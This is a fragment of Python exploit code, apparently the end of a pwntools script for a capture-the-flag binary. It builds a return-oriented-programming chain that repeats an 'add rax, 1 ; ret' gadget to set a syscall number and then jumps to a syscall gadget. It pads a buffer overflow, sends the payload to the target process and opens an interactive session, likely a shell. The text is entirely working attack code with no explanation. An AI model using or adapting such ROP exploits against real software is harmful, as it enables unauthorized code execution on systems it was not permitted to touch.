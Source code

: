 ```python
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000401ce4) # syscall
payload=b'a'*(0x20+8)+p
io.recv()
io.sendline(payload)
io.interactive()
```

